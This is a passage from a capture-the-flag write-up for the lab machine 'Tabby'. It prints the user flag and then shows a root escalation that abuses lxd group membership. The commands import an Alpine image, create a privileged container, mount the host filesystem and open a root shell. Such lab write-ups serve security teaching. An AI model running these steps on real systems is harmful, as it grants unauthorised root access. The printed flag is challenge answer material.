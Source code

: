 User flag: `f7328d5e25be4a817d7d3482b1e551aa`


# Root flag

## lxd group

Checking the groups `ash` belongs to reveals that he's member of the `lxd` group:

~~~
ash@tabby:/opt/tomcat$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
~~~

## Alpine image

We can escalate our privileges quite easily using the alpine image. It requires that we build the image on our machine.

~~~
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ su - root
# ./build-alpine
~~~

If everything went fine, a `*.tar.gz` file should have been generated (e.g. `alpine-v3.12-x86_64-20200917_1504.tar.gz`). Transfer it to the target and install the image:

~~~
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200917_1504.tar.gz --alias myimage
<e-v3.12-x86_64-20200917_1504.tar.gz --alias myimage
ash@tabby:~$ lxc image list
lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| myimage | aa2e216dad95 | no     | alpine v3.12 (20200917_15:04) | x86_64       | CONTAINER | 3.04MB | Sep 17, 2020 at 4:58pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
ash@tabby:~$ lxc init myimage tabby -c security.privileged=true
lxc init myimage tabby -c security.privileged=true
Creating tabby
ash@tabby:~$ lxc config device add tabby mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to tabby
ash@tabby:~$ lxc start tabby
lxc start tabby
ash@tabby:~$ lxc exec tabby /bin/sh
lxc exec tabby /bin/sh
~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # ls -ila
ls -ila
total 40
 262146 drwx------    6 root     root          4096 Jun 16 13:59 .
      2 drwxr-xr-x   20 root     root          4096 May 19 10:28 ..
 276206 lrwxrwxrwx    1 root     root             9 May 21 20:30 .bash_history -> /dev/null
 262164 -rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
 400212 drwx------    2 root     root          4096 May 19 22:23 .cache
~~~
